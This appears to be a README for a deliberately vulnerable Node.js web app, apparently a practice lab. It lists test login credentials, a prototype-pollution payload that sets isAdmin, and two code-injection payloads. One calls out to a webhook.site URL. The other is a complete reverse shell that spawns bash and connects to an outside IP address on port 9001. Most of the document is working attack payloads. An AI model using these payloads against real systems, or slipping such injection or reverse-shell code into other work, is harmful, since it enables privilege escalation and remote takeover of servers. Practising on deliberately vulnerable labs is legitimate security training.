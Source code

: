# Vulnerable Web App

This app is vulnerable to prototype pollution and code execution.

# Login

http://localhost:3000/login

```
{
	"username": "test",
	"password": "test"
}
```

# Prototype Pollution

http://localhost:3000/send-request

```
{
	"app": "my-super-app",
	"constructor": {"prototype": {"isAdmin": true}}
}
```

# Code Execution

http://localhost:3000/send-request-formatted

Web Request
```
{
	"app": "){global.process.mainModule.require('https').get('https://webhook.site/a7b90588-7255-45f2-8912-3d2f8f4e1d33');}; with(obj"
}
```

or

Reverse shell
```
{
	"app": "){!async function(){var n=global.process.mainModule.require('net'),e=global.process.mainModule.require('child_process').spawn('bash',[]),t=new n.Socket;t.connect(9001,'83.136.250.34',function(){t.pipe(e.stdin),e.stdout.pipe(t),e.stderr.pipe(t)})}();}; with(obj"
}
```
